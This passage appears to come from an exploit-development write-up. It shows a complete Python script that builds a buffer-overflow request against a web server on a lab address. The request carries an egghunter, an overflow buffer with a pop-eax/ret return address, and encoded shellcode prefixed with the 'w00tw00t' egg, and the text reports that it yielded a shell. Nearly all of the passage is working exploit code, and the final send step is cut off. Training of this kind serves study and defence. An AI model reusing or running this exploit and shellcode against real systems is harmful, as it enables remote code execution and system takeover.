 And a shell was gotten.
The complete payload that implements our egghunter is the following:
```python
#!/usr/bin/python  
import socket  
import sys  
from struct import pack  
try:  
 server = "192.168.122.113"  
 port = 80  
 size = 253  
  
# bp 0x418674  
# 00 0a 0d 25 -> badchars  
  
 httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"  # xor ecx, ecx; test ecx, ecx; je 0x17  
  
 payload = b""  
 payload += b"\xd9\xc5\xd9\x74\x24\xf4\xbd\x09\xf4\x52\x1d"  
 payload += b"\x58\x31\xc9\xb1\x59\x83\xe8\xfc\x31\x68\x15"  
 payload += b"\x03\x68\x15\xeb\x01\xae\xf5\x64\xe9\x4f\x06"  
 payload += b"\x1a\x63\xaa\x37\x08\x17\xbe\x6a\x9c\x53\x92"  
 payload += b"\x86\x57\x31\x07\x1c\x15\x9e\x28\x95\x93\xf8"  
 payload += b"\x07\x26\x12\xc5\xc4\xe4\x35\xb9\x16\x39\x95"  
 payload += b"\x80\xd8\x4c\xd4\xc5\xae\x3b\x39\x9b\x67\x4f"  
 payload += b"\x97\x0c\x03\x0d\x2b\x2c\xc3\x19\x13\x56\x66"  
 payload += b"\xdd\xe7\xea\x69\x0e\x8c\xbb\x71\x25\xca\x1b"  
 payload += b"\xd2\x38\x39\xde\x1b\x4e\x81\xa8\x10\x9b\x72"  
 payload += b"\x1b\xd8\xe5\x52\x6d\xe6\x27\x95\x83\x4a\xa6"  
 payload += b"\xee\xa4\x72\xdc\x04\xd7\x0f\xe7\xdf\xa5\xcb"  
 payload += b"\x62\xff\x0e\x9f\xd5\xdb\xaf\x4c\x83\xa8\xbc"  
 payload += b"\x39\xc7\xf6\xa0\xbc\x04\x8d\xdd\x35\xab\x41"  
 payload += b"\x54\x0d\x88\x45\x3c\xd5\xb1\xdc\x98\xb8\xce"  
 payload += b"\x3e\x44\x64\x6b\x35\x67\x73\x0b\xb6\x77\x7c"  
 payload += b"\x51\x20\xbb\xb1\x6a\xb0\xd3\xc2\x19\x82\x7c"  
 payload += b"\x79\xb6\xae\xf5\xa7\x41\xa7\x12\x58\x9d\x0f"  
 payload += b"\x72\xa6\x1e\x6f\x5a\x6d\x4a\x3f\xf4\x44\xf3"  
 payload += b"\xd4\x04\x68\x26\x40\x0f\xfe\x09\x3c\x75\x2d"  
 payload += b"\xe1\x3e\x8a\xd0\x49\xb7\x6c\x82\xfd\x97\x20"  
 payload += b"\x63\xae\x57\x91\x0b\xa4\x58\xce\x2c\xc7\xb3"  
 payload += b"\x67\xc6\x28\x6d\xdf\x7f\xd0\x34\xab\x1e\x1d"  
 payload += b"\xe3\xd1\x21\x95\x01\x25\xef\x5e\x60\x35\x18"  
 payload += b"\x39\x8a\xc5\xd9\xac\x8a\xaf\xdd\x66\xdd\x47"  
 payload += b"\xdc\x5f\x29\xc8\x1f\x8a\x2a\x0f\xdf\x4b\x1a"  
 payload += b"\x7b\xd6\xd9\x22\x13\x17\x0e\xa2\xe3\x41\x44"  
 payload += b"\xa2\x8b\x35\x3c\xf1\xae\x39\xe9\x66\x63\xac"  
 payload += b"\x12\xde\xd7\x67\x7b\xdc\x0e\x4f\x24\x1f\x65"  
 payload += b"\xd3\x23\xdf\xfb\xfc\x8b\xb7\x03\xbd\x2b\x47"  
 payload += b"\x6e\x3d\x7c\x2f\x65\x12\x73\x9f\x86\xb9\xdc"  
 payload += b"\xb7\x0d\x2c\xae\x26\x11\x65\x6e\xf6\x12\x8a"  
 payload += b"\xab\x09\x68\xe3\x4c\xea\x8d\xed\x28\xeb\x8d"  
 payload += b"\x11\x4f\xd0\x5b\x28\x25\x17\x58\x0f\x36\x22"  
 payload += b"\xfd\x26\xdd\x4c\x51\x38\xf4"  
  
 egghunter = b"\x90\x90\x90\x90\x90\x90\x90\x90\x66\x81\xca\xff\x0f\x42\x52\xb8\x37\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7"  
 inputBuffer = b"\x41" * (size - len(egghunter))  
 inputBuffer+= pack("<L", 0x418674) # 0x00418674 - pop eax; ret  
  
 shellcode = b"w00tw00t" + payload + b"D" * (400-len(payload))  
  
 httpEndRequest = b"\r\n\r\n"  
 buf = httpMethod + egghunter + inputBuffer + httpEndRequest + shellcode  
 print("Sending evil buffer...")  
```